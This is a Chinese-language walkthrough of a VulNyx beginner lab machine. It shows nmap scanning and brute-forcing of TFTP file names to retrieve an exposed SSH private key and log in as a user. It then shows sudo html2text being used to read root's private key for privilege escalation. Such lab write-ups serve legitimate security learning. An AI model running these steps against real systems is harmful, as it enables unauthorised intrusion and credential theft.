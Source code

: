 # 环境

来自[Vulny_Beginner](https://vulnyx.com/#Beginner)，利用tftp获取暴露的ssh密钥，泄露用户

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```

![image-20240831190213675](image/image-20240831190213675.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.43
sudo nmap -sU --top-ports 20 192.168.88.43  #udp扫描
```

![image-20240831190314785](image/image-20240831190314785.png)

## 服务详情

```bash
sudo nmap -sV -sC -p22,80 -O 192.168.88.43
```

![image-20240831190448223](image/image-20240831190448223.png)

## 目录扫描

```bash
dirb http://192.168.88.43
```

无结果

# udp

## 爆破tftp目录

扫描udp，发现开放69端口的TFTP服务

```bash
tftp 192.168.88.43  #尝试连接
get 1.txt  #一直等待说明没有开启69，说没找到验证开启了69
gobuster tftp -s 192.168.88.43 -w /usr/share/wordlists/metasploit/tftp.txt
get backup-config

#或者使用msf
search tftp brute
use 0
show options
set rhots 192.168.88.43
run
```

![image-20240831211009572](image/image-20240831211009572.png)

## ssh对私钥生成公钥

```bash
unzip backup-config
ssh-keygen -y -f id_rsa  #生成公钥，查看公钥结尾是否存在用户
cat sshd_config  #发现存在boris用户
ssh -i id_rsa boris@192.168.88.43
```

![image-20240831212534323](image/image-20240831212534323.png)

![image-20240831212924411](image/image-20240831212924411.png)

## 提权

通过html2text读取root的私钥

```bash
sudo /usr/bin/html2text /root/.ssh/id_rsa > rootid
chmod 600 rootid
ssh root@localhost -i rootid
```

![image-20240831214117163](image/image-20240831214117163.png)

